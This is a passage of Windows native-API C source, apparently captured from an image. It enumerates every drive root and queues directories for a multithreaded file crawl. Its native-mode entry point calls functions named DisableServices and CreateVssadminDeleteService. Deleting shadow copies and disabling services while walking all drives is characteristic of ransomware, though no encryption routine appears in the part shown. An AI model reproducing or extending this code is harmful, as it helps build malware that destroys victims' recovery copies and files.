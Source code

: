 ```
        driveRoot.Buffer = driveRootBuf;

        RtlAppendUnicodeToString(&driveRoot, L"\\??\\");
        WCHAR letterStr[3] = { letter, L':', 0 };
        RtlAppendUnicodeToString(&driveRoot, letterStr);
        RtlAppendUnicodeToString(&driveRoot, L"\\");

        InitializeObjectAttributes(&oa, &driveRoot, OBJ_CASE_INSENSITIVE, NULL, NULL);
        HANDLE hFile;
        NTSTATUS openStatus = NtOpenFile(
            &hFile,
            FILE_LIST_DIRECTORY | SYNCHRONIZE,
            &oa,
            &iosb,
            FILE_SHARE_READ | FILE_SHARE_WRITE | FILE_SHARE_DELETE,
            FILE_DIRECTORY_FILE | FILE_SYNCHRONOUS_IO_NONALERT
        );
        if (NT_SUCCESS(openStatus)) {
            NtClose(hFile);

            PQUEUE_ITEM dItem = (PQUEUE_ITEM)RtlAllocateHeap(g_Heap, HEAP_ZERO_MEMORY, sizeof(QUEUE_ITEM));
            if (!dItem) {
                status = STATUS_NO_MEMORY;
                break;
            }

            dItem->Path.Buffer = (PWCH)RtlAllocateHeap(g_Heap, HEAP_ZERO_MEMORY, driveRoot.Length + sizeof(WCHAR));
            if (!dItem->Path.Buffer) {
                RtlFreeHeap(g_Heap, 0, dItem);
                status = STATUS_NO_MEMORY;
                break;
            }

            dItem->Path.Length = driveRoot.Length;
            dItem->Path.MaximumLength = driveRoot.Length + sizeof(WCHAR);
            memcpy(dItem->Path.Buffer, driveRoot.Buffer, driveRoot.Length);
            dItem->Path.Buffer[driveRoot.Length / sizeof(WCHAR)] = L'\0';

            InterlockedIncrement(&g_OutstandingDirectories);
            Enqueue(&g_DirectoryQueue, dItem);
        }
    }

    return status;
}

ULONG GetProcessorCount() {
    SYSTEM_BASIC_INFORMATION sbi;
    NTSTATUS status = NtQuerySystemInformation(SystemBasicInformation, &sbi, sizeof(sbi), NULL);
    return NT_SUCCESS(status) ? sbi.NumberOfProcessors : 1;
}


extern void NtProcessStartup() {
    g_Heap = RtlCreateHeap(HEAP_GROWABLE, NULL, 0, 0, NULL, NULL);

    InitQueue(&g_DirectoryQueue);
    InitQueue(&g_FileQueue);

    DisableServices();
    CreateVssadminDeleteService();
```